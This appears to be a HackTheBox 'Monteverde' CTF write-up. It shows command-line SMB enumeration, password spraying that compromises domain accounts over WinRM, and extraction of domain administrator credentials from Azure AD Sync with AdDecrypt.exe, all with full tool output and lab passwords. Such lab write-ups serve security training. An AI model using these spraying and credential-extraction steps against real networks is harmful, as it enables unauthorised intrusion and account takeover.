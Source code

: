 ```yaml
---
title: HackTheBox-Monteverde
date: 2024-12-23 09:41:00 +/-TTTT
categories: [boxes, red-teaming]
tags: [azure, cloud]     # TAG names should always be lowercase
image : /assets/images/EN2dAzBW4AMwIow.jpg
---
```


## SMB-enum

    ➜  Monteverde nxc smb 10.10.10.172
    SMB         10.10.10.172    445    MONTEVERDE       [*] Windows 10 / Server 2019 Build 17763 x64 (name:MONTEVERDE) (domain:MEGABANK.LOCAL) (signing:True) (SMBv1:False)

    user : user
    ➜  Monteverde nxc smb 10.10.10.172 -u users.txt -p users.txt --no-bruteforce

    SMB        10.10.10.172    445    MONTEVERDE       [+] MEGABANK.LOCAL\SABatchJobs:SABatchJobs

    ➜  Monteverde cat azure.xml 
    ��<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
    <Obj RefId="0">
        <TN RefId="0">
        <T>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</T>
        <T>System.Object</T>
        </TN>
        <ToString>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</ToString>
        <Props>
        <DT N="StartDate">2020-01-03T05:35:00.7562298-08:00</DT>
        <DT N="EndDate">2054-01-03T05:35:00.7562298-08:00</DT>
        <G N="KeyId">00000000-0000-0000-0000-000000000000</G>
        <S N="Password">4n0therD4y@n0th3r$</S>
        </Props>
    </Obj> 
    </Objs># 

## pasword-spray

    ➜  Monteverde nxc winrm 10.10.10.172 -u users.txt -p '4n0therD4y@n0th3r$'            
    WINRM       10.10.10.172    5985   MONTEVERDE       [*] Windows 10 / Server 2019 Build 17763 (name:MONTEVERDE) (domain:MEGABANK.LOCAL)
    WINRM       10.10.10.172    5985   MONTEVERDE       [-] MEGABANK.LOCAL\Guest:4n0therD4y@n0th3r$
    WINRM       10.10.10.172    5985   MONTEVERDE       [-] MEGABANK.LOCAL\AAD_987d7f2f57d2:4n0therD4y@n0th3r$
    WINRM       10.10.10.172    5985   MONTEVERDE       [+] MEGABANK.LOCAL\mhope:4n0therD4y@n0th3r$ (Pwn3d!)

## Azure-Part

    *Evil-WinRM* PS C:\Program Files\Microsoft Azure AD Sync\Bin> C:\Users\mhope\Documents\AdDecrypt.exe -FullSQL

    ======================
    AZURE AD SYNC CREDENTIAL DECRYPTION TOOL
    Based on original code from: https://github.com/fox-it/adconnectdump
    ======================

    Opening database connection...
    Executing SQL commands...
    Closing database connection...
    Decrypting XML...
    Parsing XML...
    Finished!

    DECRYPTED CREDENTIALS:
    Username: administrator
    Password: d0m@in4dminyeah!
    Domain: MEGABANK.LOCAL

Video walkthrough
[WATCH!](https://youtu.be/H33UoqCnJb0)